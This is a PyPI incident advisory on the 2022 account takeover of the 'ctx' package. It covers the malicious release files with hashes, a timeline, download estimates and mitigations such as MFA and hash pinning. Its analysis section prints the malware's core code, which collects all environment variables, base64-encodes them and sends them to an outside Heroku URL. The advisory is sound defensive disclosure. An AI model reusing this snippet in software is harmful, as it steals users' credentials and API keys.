

=========================================================
Account Takeover and Malicious Replacement of ctx Project
=========================================================

Summary
=======

The ``ctx`` hosted project on PyPI was taken over via user account compromise
and replaced with a malicious project which contained runtime code which
collected the content of ``os.environ.items()`` when instantiating ``Ctx``
objects. The captured environment variables were sent as a base64 encoded query
parameter to a heroku application running at ``https://anti-theft-web.herokuapp.com``.

Between 2022-05-14T19:18:36Z and 2022-05-24T10:07:17Z the release files
listed below were hosted by PyPI at various times containing this malicious
payload.

If you installed the package between May 14, 2022 and May 24, 2022, and your
environment variables contain sensitive data like passwords and API keys (like
``AWS_ACCESS_KEY_ID`` and ``AWS_SECRET_ACCESS_KEY``), we advise you rotate your
passwords and keys, then perform an audit to determine if they were exploited.

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.2.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/4c/e2/f78e95454725d45602611560682cc1929ee18af496d2a2bc5430278d9153/ctx-0.2.2-py2.py3-none-any.whl>`_              | 2022-05-21T12:41:57.066Z | acf05948020a86092943b40d6e5c5b51ec6087923f58942216b9c5e8b853d3fb |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/55/2f/62dc2487337bbc3d761c8117f255a9ac234888bf46467455e5315814b737/ctx-0.1.2-1-py2.py3-none-any.whl>`_          | 2022-05-21T12:54:51.344Z | 5dc1bc1404c27699ee40fd71eeb586d6842e1478f9f14dab5d1763fc20dff3d3 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1.tar.gz <https://files.pythonhosted.org/packages/41/7a/2e658c7805560d0dcce50a469a0b68f48e78b3f3aa1d7431249f046f60f2/ctx-0.1.2-1.tar.gz>`_                                      | 2022-05-21T12:54:53.384Z | b40297af54e3f99b02e105f013265fd8d0a1b1e1f7f0b05bcb5dbdc9125b3bb5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/3f/54/c129c06f63fd7ea2c38fe933a2152ce40467de1db21739f117f6d166d90b/ctx-0.2.3-py2.py3-none-any.whl>`_              | 2022-05-21T16:17:17.016Z | f45a256c2f7aace635a82118dfadf6f6023315fc73d7d473b99acc40ecb12278 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3.tar.gz <https://files.pythonhosted.org/packages/08/0e/af68c739501eb7734d59fe1acefbf9248a9ebcb2691eabad20e1d3fd6a75/ctx-0.2.3.tar.gz>`_                                          | 2022-05-21T16:17:19.599Z | 15103c1af07a9a091dfe3b6c6dda9f1f11fd65bd9a878a9aaa79aee6bb8722cc |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/dd/68/27389f6a566a102de83539bc69c506085e8b8ac509119a4f17990e3bb4cb/ctx-0.2.2.1-py2.py3-none-any.whl>`_          | 2022-05-21T16:19:40.081Z | 5b484f642eaf4f5708d446e93f0f698f57bbece49d27808a59980358abdbe590 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1.tar.gz <https://files.pythonhosted.org/packages/f0/e6/f4effbd2483d061edbe62cd8107700fdaf7e6e5843cea70c8c859b5d0fca/ctx-0.2.2.1.tar.gz>`_                                      | 2022-05-21T16:19:42.337Z | f7342f723517f24b13f2ab2f702abb78692288138c1053dbe64bccd8bc1175d5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b0/fe/a2d322d861f73131c61020ad8e96f3b2a0bb4784e640e01e29a5be1454fe/ctx-0.2.4-py2.py3-none-any.whl>`_              | 2022-05-21T16:20:21.645Z | 280cc6f69a1cd80c9bf95272237d5620d14f226111066df1f0c0855722a89257 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4.tar.gz <https://files.pythonhosted.org/packages/8a/c4/04990148f252dcc62dec759b09580972f02c9fc49056c8d69fe7ff92b6f3/ctx-0.2.4.tar.gz>`_                                          | 2022-05-21T16:20:23.581Z | 9c1bb795d660ddb0c42166e546af06230443cbcda8780f0f3541017a8659e7cd |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b6/50/fd14560fac446587b442446871f91c7702631ee09e9b6b76221308ff7a6b/ctx-0.1.2-2-py2.py3-none-any.whl>`_          | 2022-05-21T16:24:52.810Z | e212e12d0983a9d81812f14fac8c207d1dc67a4ec9043af9aea0799b528dafa1 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/09/ff/9ef8bb7abebc4c680fa3a497ea694f66273b0d3eafa8d5ce005fbf88eb1e/ctx-0.2.5-py2.py3-none-any.whl>`_              | 2022-05-21T16:27:18.221Z | 86b8e1e529e9a566ac7ce7d85ffe4e5cf69df50cb0e6e38fbb6e34e6965815a0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5.tar.gz <https://files.pythonhosted.org/packages/1e/4e/8cdcf228d1d2dd666eacbde59a0cfa994fe58af7287f2272dcd30717a584/ctx-0.2.5.tar.gz>`_                                          | 2022-05-21T16:27:19.867Z | 34c0ae0c77160355eefa8e43b1d8c68df31c448b5a28fe78f32300bf89eb0813 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/33/ec/7771d928a431dabd4440dc420ed03029eddc4bd7067ffd0af49052174c6a/ctx-0.2.6-py2.py3-none-any.whl>`_              | 2022-05-21T16:28:19.342Z | 04b150ce4dbd2bcf054a9c2b676649f9da60b7ce2c74f31ebc4e1070dcc0fb94 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6.tar.gz <https://files.pythonhosted.org/packages/b7/0d/00ed86e3e8363820c05d53f8c850dd88137f9b8f6ef1eed255a63ab5cbbd/ctx-0.2.6.tar.gz>`_                                          | 2022-05-21T16:28:21.490Z | 4fdfd4e647c106cef2a3b2503473f9b68259cae45f89e5b6c9272d04a1dfaeb0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.tar.gz <https://files.pythonhosted.org/packages/19/8d/08520985e1433086304aa6e9671a47a94b3b949ca605bc883c1b15d03b68/ctx-0.2.tar.gz>`_                                              | 2022-05-14T23:52:46.207Z | 6c98fe4afa021885d5add151049aec7d812a31fb9a03bf5cdedefd42229b6b90 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.1.tar.gz <https://files.pythonhosted.org/packages/5a/71/74e1ea615c12401ffe569e3b486d6936e25bbeaeae981280a90c85aa2483/ctx-0.2.1.tar.gz>`_                                          | 2022-05-15T00:17:20.862Z | cdda4a2ec16bd52862e9b18aaa5525468318ba544fe426daeebc3d28e2b72897 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.tar.gz <https://files.pythonhosted.org/packages/83/2a/ea9818cdb7256ef86546d56c893d8c6504208766763e838583bded1353d4/ctx-0.2.2.tar.gz>`_                                          | 2022-05-15T00:44:53.658Z | b7644fa1e0872780690ce050c98aa2407c093473031ab5f7a8ce35c0d2fc077e |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.4.tar.gz <https://files.pythonhosted.org/packages/be/1e/71f23d7b4e6a7eed404b28f5fcaa3594b76d24701ef16861773887fc82b1/ctx-0.1.4.tar.gz>`_                                          | 2022-05-14T19:18:36.994Z | 17714ef9ff6d2eabc631638e2f092115fa569843f9ab45b6e9da23912b72f482 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

The original and sole releases prior to the compromise are still available as:

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.1.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/11/87/f6ab88cd29495120e255a092397095fb9a6ed0918a01fe104ca3389341df/ctx-0.1.2-py2.py3-none-any.whl>`_              | 2014-12-19T07:31:07.162Z | beb1628d6624b19c04a065fab6751feace594fd4072b3e649cafdd765182e441 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2.tar.gz <https://files.pythonhosted.org/packages/48/aa/94bc2fdfe7a524cde4275c115bcc0185e6a58fde460568c513242b314b73/ctx-0.1.2.tar.gz>`_                                          | 2014-12-19T07:31:04.062Z | edbff45647936da3cdadcfeaa64ee9f62b8ad629a5cea8caa4b63f5dc08b99c4 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

* Disclosure date: **2022-05-24** (Response initiated via reports submitted via security policy on `pypi.org <https://pypi.org/security/>`_)
* Disclosed by: Multiple Parties

Analysis and Mitigation
=======================

Once notified, a PyPI administrator confirmed that all current releases on the
index contained a similar exfiltration mechanism in the contents of the
``ctx.py`` file of the release files::

    class Ctx(dict):

        def __init__(self):

            self.sendRequest()

        def sendRequest(self):
            string = ""
            for _, value in os.environ.items():
                string += value+" "

            message_bytes = string.encode('ascii')
            base64_bytes = base64.b64encode(message_bytes)
            base64_message = base64_bytes.decode('ascii')

            response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)

**Note:** Above code is reduced to core mechanism for clarity.

With the malicious nature of all release files confirmed, the PyPI
administrator used existing tools to:

* Remove the project, all releases, and all release files from the index
* Simultaneously prohibit the name ``ctx`` from being re-registered without
  admin intervention
* Freeze the compromised user account of the owner

The activity log of the user, action log on the project, metadata for all
historical uploads (including malicious), archives of the files, and their
locations in object storage were backed up for further analysis.

WHOIS records were then queried to confirm that the domain associated with the
owner user account had been recently registered on 2022-05-14T18:40:05Z.
Activity logs for the owner user account were then used to confirm that
malicious activity including password reset and uploads commenced just 12
minutes after domain registration. No mechanism for multi factor authentication
was enabled for the owner user account.

The PyPI administrators made the decision *not* to restore the original files
at this time, as PyPI policies state that actions on the index including
deletion are immutable.

If there is sufficient reason to restore the removed files a process that
complies with that contract will need to be developed.

Impact Assessment
=================

The ``ctx`` project was registered and uploaded to PyPI in 2014. According to
Libraries.io, the project on PyPI that declares it as a dependency is
``context-engine``. No known repositories that Libraries.io analyzes declares
``ctx`` as a dependency. This is additionally confirmed by
https://deps.dev/pypi/ctx/0.1.2/dependents.

Before the malicious releases were uploaded, ``ctx`` saw on average 1600
downloads per day. After malicious releases were uploaded, downloads rose to a
peak of 4548 on 2022-05-20. Rises like these are common after new project
releases due to mirrors of PyPI syncing in new changes.

In total we estimate that 27,000 malicious versions of this project were
downloaded from PyPI, with the majority of "overage" downloads being driven by
mirrors.

This hypothesis is supported by data from analysis of requests to
https://pypi.org/simple/ctx/ showing no associated rise in simple traffic from
installers.

Potential Future Mitigation
===========================

Domain takeovers are a known attack vector for compromising individual user
accounts on PyPI. PyPI administrators have responded to reports in the past of
publicly visible email addresses associated with project metadata containing
expired domains, which happened to match the domains of owner user accounts for
projects.

Performing this analysis on an ongoing basis and freezing accounts with expired
or near expiration domains is a potential mitigation that could protect absent
maintainers in the future, at the cost of increased support burden on the team
of PyPI moderators and admins.

Further Reccomendations
=======================

We also advise all PyPI users, but especially project maintainers, to enable
multi factor authentication on their PyPI accounts following the references at
https://pypi.org/help/#twofa.

Additionally, version-pinning and using `hash checking mode
<https://pip.pypa.io/en/stable/topics/secure-installs/#hash-checking-mode>`_
would prevent this attack, which depends on users automatically upgrading to
the latest available version at install-time.

The safety and pip-audit projects can be used to check for known
vulnerabilities in your dependencies:

* https://github.com/pyupio/safety
* https://github.com/trailofbits/pip-audit

You can join the security-sig mailing list to discuss Python security:
https://mail.python.org/mailman3/lists/security-sig.python.org/

Timeline
========

* Unknown: Domain hosting email for ``ctx`` owner user account expired
* 2022-05-10: Password reset attempted for ``ctx`` owner user account
* 2022-05-14T18:40:05Z: Domain associated with ``ctx`` owner user account registered
* 2022-05-14T18:52:40Z: ``ctx`` owner user account password successfully reset
* 2022-05-14T19:18:36Z - 2022-05-21T12:41:57Z: Malicious versions of ``ctx`` project uploaded
* 2022-05-21T12:50:23.107588: Original benign versions of ``ctx`` removed from index
* 2022-05-24: Reports of project takeover submitted on multiple channels including security@python.org
* 2022-05-24T10:07:17Z: All malicious releases of ``ctx`` project removed from index, project name prohibited from re-registration, and owner user account frozen
